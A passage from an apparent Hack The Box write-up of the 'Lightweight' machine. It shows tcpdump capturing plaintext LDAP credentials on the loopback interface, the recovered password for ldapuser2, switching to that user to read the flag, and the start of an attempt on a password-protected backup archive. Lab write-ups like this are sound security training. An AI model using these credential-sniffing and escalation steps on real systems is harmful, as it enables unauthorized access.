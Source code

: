 ### Capturing traffic

There is an automated script on the box that connects locally to the LDAP server via the loopback interface. Because it's not using LDAPS, the credentials are in plaintext and I can capture them by sniffing the loopback interface.


```
[10.10.14.23@lightweight ~]$ tcpdump -nni lo -w /tmp/capture.pcap
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
```

After grabbing the .pcap file via scp, we can see the following LDAP query using simple authentication with user `ldapuser2`

![](/assets/images/htb-writeup-lightweight/ldap1.png)

And we've got the password in plaintext here:

![](/assets/images/htb-writeup-lightweight/ldap2.png)

`ldapuser2` password is: `8bc8251332abe1d7f105d3e53ad39ac2`

### Logging in as ldapuser2 and grabbing the user flag

We can't SSH in as `ldapuser2` but we're able to `su` to `ldapuser2`.

```
[10.10.14.23@lightweight ~]$ su -l ldapuser2
Password: 
Last login: Mon Dec 10 21:41:37 GMT 2018 on pts/1
Last failed login: Tue Dec 11 04:35:22 GMT 2018 from 10.10.14.23 on ssh:notty
There was 1 failed login attempt since the last successful login.
[ldapuser2@lightweight ~]$ ls
backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt

[ldapuser2@lightweight ~]$ cat user.txt
8a866d...
```

### Privesc to ldapuser1

The `backup.7z` file in ldapuser2's home directory is our next logical target, however it has a password set on it:

```
# 7z e backup.7z 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i7-2600K CPU @ 3.40GHz (206A7),ASM,AES-NI)

Scanning the drive for archives:
1 file, 3411 bytes (4 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 3411
Headers Size = 259
Method = LZMA2:12k 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
```